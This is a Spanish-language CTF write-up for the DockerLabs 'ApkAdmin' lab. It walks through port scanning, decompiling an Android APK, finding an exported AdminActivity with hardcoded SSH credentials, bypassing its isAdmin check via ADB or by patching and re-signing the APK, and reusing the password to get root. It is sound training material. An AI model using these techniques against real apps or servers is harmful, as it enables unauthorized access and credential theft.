








# ApkAdmin DockerLabs (Easy)

# Contexto de la maquina
## Trayectoria ApkAdmin

<figure><figcaption></figcaption></figure>

## Descripción

**ApkAdmin** es una máquina Linux de dificultad **Easy** en DockerLabs con un enfoque completamente diferente al resto: la superficie de ataque no es una aplicación web convencional, sino una **aplicación Android** (`.apk`) descargable desde la página principal. Para comprometer la máquina hay que realizar **ingeniería inversa** del APK, identificar una vulnerabilidad de control de acceso en el `AndroidManifest.xml` (una `Activity` de administración exportada sin protección), leer el bytecode Smali de dicha `Activity` para encontrar las credenciales SSH hardcodeadas, y parchear o llamar directamente a la actividad explotando el parámetro booleano `isAdmin` que controla si se muestran o no las credenciales.

**Objetivo**

- Descompilar el APK con `apktool` y analizar el `AndroidManifest.xml`.
- Identificar que `AdminActivity` es exportada públicamente (`android:exported="true"`).
- Leer el bytecode Smali para extraer las credenciales SSH hardcodeadas.
- Explotar el booleano `isAdmin` directamente vía ADB o mediante parche del APK.
- Acceder por SSH como `pingu` y reutilizar la contraseña para escalar a `root`.

**Tipo de máquina**

- Plataforma: DockerLabs
- Sistema operativo: Linux (Debian)
- Categoría principal: Mobile / Android Reverse Engineering
- Componentes involucrados:
    - APK descargable desde la página web.
    - `apktool` para decompilación y `baksmali` para verificación.
    - `AndroidManifest.xml` con `AdminActivity` exportada sin protección.
    - Bytecode Smali con credenciales SSH hardcodeadas protegidas por un booleano.
    - Explotación directa vía ADB (`am start --ez isAdmin true`).
    - Parche del APK: cambio de `0x0` a `0x1` en el registro `v3`.
    - Recompilación, alineado (`zipalign`) y firma (`apksigner`) del APK parcheado.
    - Reutilización de contraseña entre `pingu` y `root`.
## Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

## Instalación

Cuando obtenemos el `.zip` lo pasamos al entorno de trabajo y lo descomprimimos:

```shell
unzip apkadmin.zip
```

Montamos la máquina con el script de despliegue automático de DockerLabs:

```shell
bash auto_deploy.sh apkadmin.tar
```

Respuesta:

```
Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Cuando terminemos le damos a `Ctrl+C` para eliminar el contenedor y no dejar archivos residuales.
# Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```


```shell
nmap -sCV -p<PORTS> <IP>
```

Respuesta:

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-04 07:11 +0000
Nmap scan report for 172.17.0.2
Host is up (0.000029s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u10 (protocol 2.0)
80/tcp open  http    SimpleHTTPServer 0.6 (Python 3.11.2)
|_http-title: Laboratorio: AdminBypass CTF
```

Dos puertos abiertos:

- **Puerto 22** → SSH (OpenSSH 9.2p1), que usaremos con las credenciales que encontremos.
- **Puerto 80** → Un servidor HTTP básico de Python (`SimpleHTTPServer`), que sirve la página del reto.
## Enumeración web y descarga del APK

Accedemos a la página:

```
URL = http://<IP>/
```

Respuesta:

<figure><figcaption></figcaption></figure>

La página ofrece un botón para descargar una aplicación Android: `AdminBypassCTF.apk`. La descargamos y comenzamos el análisis de ingeniería inversa.
# Análisis del APK
## Decompilación con apktool

Un archivo `.apk` es básicamente un ZIP que contiene el bytecode compilado de la aplicación (archivos `.dex`), recursos, imágenes y el manifiesto. Directamente ejecutable en Android, pero no legible para nosotros. **apktool** lo decompila: convierte el bytecode `.dex` de vuelta a código ensamblador Smali (legible) y extrae todos los recursos:

```bash
sudo apt install apktool dex2jar
apktool d AdminBypassCTF.apk -o app_extracted
```

Respuesta:

```
I: Baksmaling classes.dex...
I: Baksmaling classes2.dex...
I: Baksmaling classes3.dex...
I: Copying assets and libs...
```
## Análisis del AndroidManifest.xml

El `AndroidManifest.xml` es el archivo de configuración central de cualquier app Android. Declara todas las `Activity` (pantallas) de la aplicación y, crucialmente, si son accesibles desde fuera de la app mediante el atributo `android:exported`:

```bash
cat app_extracted/AndroidManifest.xml
```

Las tres actividades de la app son:

| Activity | `android:exported` | Descripción |
|---|---|---|
| `MainActivity` | `true` | Pantalla de inicio (punto de entrada normal) |
| `UserActivity` | `false` | Panel de usuario normal (no accesible externamente) |
| `AdminActivity` | **`true`** | **Panel de administrador (accesible externamente sin protección)** |

**La vulnerabilidad es clara:** `AdminActivity` es pública (`exported="true"`) pero no tiene ningún `android:permission` que restrinja quién puede llamarla. Cualquier aplicación externa, o directamente desde ADB, puede lanzarla sin pasar por el flujo de autenticación de `MainActivity`.
## Lectura del bytecode Smali de AdminActivity

Ahora que sabemos qué Activity nos interesa, leemos su bytecode Smali para entender exactamente qué hace y dónde están las credenciales:

```bash
find . -path "*AdminActivity*" -name "*.smali" -exec cat {} \;
```

El bloque crítico del método `onCreate` es este:

```smali
invoke-virtual {p0}, Lcom/ctf/adminbypass/AdminActivity;->getIntent()Landroid/content/Intent;
move-result-object v1

const-string v2, "isAdmin"
const/4 v3, 0x0                    ← valor por defecto: false

invoke-virtual {v1, v2, v3}, Landroid/content/Intent;->getBooleanExtra(Ljava/lang/String;Z)Z
move-result v1

if-eqz v1, :cond_0                 ← si isAdmin=false → salta a "Acceso denegado"

const-string v2, "Acceso SSH\n\nUsuario: pingu\nContrasena: chocolate"
invoke-virtual {v0, v2}, Landroid/widget/TextView;->setText(Ljava/lang/CharSequence;)V
```

**El flujo completo en pocas palabras:**

1. La actividad lee del Intent el extra booleano `"isAdmin"` con valor por defecto `false`.
2. Si `isAdmin = true` → muestra el string con las credenciales SSH.
3. Si `isAdmin = false` (o no se pasa) → muestra "Acceso denegado" y cierra la actividad.

Las credenciales están ahí en texto plano en el smali: `pingu:chocolate`. La única "protección" es ese booleano, que es completamente controlable por quien llama a la Activity.
# Explotación

<figure><figcaption></figcaption></figure>

## Opción 1: Explotación directa vía ADB (sin modificar el APK)

La forma más rápida de explotar la vulnerabilidad es lanzar `AdminActivity` directamente desde ADB, pasando `isAdmin=true` como extra del Intent. El comando `am start` (Activity Manager start) lanza actividades en el dispositivo, y `--ez` añade un extra booleano al Intent:

```bash
adb shell am start -n com.ctf.adminbypass/.AdminActivity --ez isAdmin true
```

Esto lanza `AdminActivity` con `isAdmin=true`, la app entra directamente en la rama de las credenciales y las muestra en pantalla. No hace falta instalar nada, modificar el APK ni conocer la contraseña de admin.
## Opción 2: Parche del APK para que siempre muestre las credenciales

Si queremos una demostración más completa, o no tenemos un dispositivo/emulador a mano con ADB, podemos parchear directamente el bytecode para que el valor por defecto del booleano sea `true` en lugar de `false`. El cambio es de **una sola instrucción**:

```diff
- const/4 v3, 0x0    ← false por defecto
+ const/4 v3, 0x1    ← true por defecto
```

Con este parche, `getBooleanExtra("isAdmin", true)` siempre devuelve `true` aunque no se pase el extra, y la rama de "Acceso denegado" nunca se ejecuta.
## Recompilación y firma del APK parcheado

<figure><figcaption></figcaption></figure>

Al intentar recompilar con `apktool b .`, el build falla en la etapa de recursos (no en el smali) debido a un bug conocido de apktool con recursos `AnimatedVectorDrawable` de Material/AndroidX:

```
W: error: Public resource drawable/avd_hide_password
   has conflicting public identifiers (0x7f070000 vs 0x7f070001).
```

Este error es conocido y no tiene solución directa con apktool. Sin embargo, como el parche solo toca el smali (no el `AndroidManifest.xml` ni los recursos), podemos saltarnos el pipeline de recursos roto usando el workaround de inyectar los `.dex` parcheados directamente en una copia del APK original:

```bash
cd app_extracted

# apktool compila smali → dex aunque falle en recursos; los dex quedan en build/apk/
apktool b --use-aapt2 .

# Copiar el APK original y eliminar la firma antigua
cp AdminBypassCTF.apk patched-unsigned.apk
zip -d patched-unsigned.apk "META-INF/*"

# Reemplazar los DEX del APK original por los DEX parcheados
cd build/apk
zip -X ../../patched-unsigned.apk classes.dex classes2.dex classes3.dex
cd ../..

# Alinear y firmar con keystore de debug
zipalign -p -f 4 patched-unsigned.apk patched-aligned.apk
apksigner sign --ks debug.keystore --ks-pass pass:android --ks-key-alias debug \
  --out AdminBypassCTF-patched.apk patched-aligned.apk
```

Verificamos que la firma es válida:

```bash
apksigner verify --verbose AdminBypassCTF-patched.apk
```

Respuesta:

```
Verifies
Verified using v2 scheme (APK Signature Scheme v2): true
Verified using v3 scheme (APK Signature Scheme v3): true
```
## Verificación del parche en el binario final

<figure><figcaption></figcaption></figure>

Para confirmar que el parche quedó efectivamente embebido en el `.apk` firmado y no solo en el smali fuente, extraemos los `.dex` del APK ya firmado y los desensamblamos con `baksmali`:

```bash
mkdir -p verify_extract verify_smali
unzip -j AdminBypassCTF-patched.apk "classes*.dex" -d verify_extract

# AdminActivity vive en classes3.dex (app multidex)
baksmali disassemble verify_extract/classes3.dex -o verify_smali
grep -A2 "isAdmin" verify_smali/com/ctf/adminbypass/AdminActivity.smali
```

Respuesta:

```smali
const-string v2, "isAdmin"
const/4 v3, 0x1      ← confirmado: el parche está en el binario final firmado
```

`v3 = 0x1` confirmado en el binario empaquetado. El parche es efectivo.
## Instalación y ejecución del APK parcheado

```bash
adb install -r AdminBypassCTF-patched.apk
adb shell am start -n com.ctf.adminbypass/.AdminActivity
```

Al abrir `AdminActivity` directamente sin pasar ningún extra, el TextView `textFlag` muestra las credenciales:

```
Acceso SSH

Usuario: pingu
Contrasena: chocolate
```
# Escalate user pingu
## SSH (pingu)

```bash
ssh pingu@<IP>
# Contraseña: chocolate
```

Respuesta:

```
pingu@95194ef49af4:~$ whoami
pingu
```

Somos `pingu`.
# Escalate Privileges

<figure><figcaption></figcaption></figure>

## Reutilización de contraseña para root

Probamos directamente si `root` comparte la misma contraseña que `pingu`, que es un patrón habitual en entornos de laboratorio:

```bash
su root
# Contraseña: chocolate
```

Respuesta:

```
root@95194ef49af4:/home/pingu# whoami
root
```

La contraseña es la misma. Somos `root` y la máquina está completamente comprometida.

